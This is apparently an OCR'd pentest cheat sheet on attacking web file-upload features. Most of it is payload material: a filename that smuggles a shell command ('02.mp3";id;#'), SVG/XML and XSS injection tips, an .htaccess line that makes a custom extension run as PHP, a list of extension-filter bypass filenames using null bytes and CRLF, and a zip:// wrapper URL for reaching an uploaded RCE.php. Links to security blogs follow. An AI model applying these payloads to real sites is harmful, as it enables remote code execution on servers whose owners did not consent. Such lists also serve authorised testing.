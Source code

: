 ```yaml
---

### **File Upload Vulnerabilities & Techniques**

#### **1. Basic Techniques**
- File Name Manipulation:
  - 02.mp3";id;#
  - Try uploading a text file with .png extension.
  - Try the same with .svg and inject XML: Video Tutorial (https://youtu.be/Iq6ThCmUTOU?si=-waZobykOkxOdf8L).
  - Try injecting XSS code in the file.

#### **2. Tools for Exploitation**
- Exif Tool: Manipulate metadata.
- jhead: Inject headers into image files.
- Video Tutorial: jhead (https://youtu.be/CmF9sEyKZNo?si=xpqlS0H2gpb7flmt).

#### **3. .htaccess File Manipulation**
- Add the following line to .htaccess:
  - AddType application/x-httpd-php .l33t
- Then upload a PHP file with .l33t extension.

#### **4. File Extension Bypass Techniques**
- file.jpg.{EXT}
- file.{EXT}.jpg
- file.{EXT}.xxxjpg
- file.{EXT}%00.jpg
- file.{EXT}\x00.jpg
- file.{EXT}%00
- file.{EXT}\x00
- file.{EXT}%20
- file.{EXT}%0d%0a.jpg
- file.{EXT}/
- file.{EXT}.\

#### **5. ZIP File Exploitation**
- Place RCE.php in a .zip file.
- Upload the .zip file.
- Access it via: http://www.target.com?file=zip://uploadedFile.zip%23RCE.php

#### **6. References**
- RCE Vulnerability in File Name: https://www.vaadata.com/blog/rce-vulnerability-in-a-file-name/
- Shell Uploading: https://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html
- File Upload Security Tips: https://security-tips.vincd.com/file-upload/
- Multipart Parsers Validation Bypass: https://blog.sicuranext.com/breaking-down-multipart-parsers-validation-bypass/

---
```
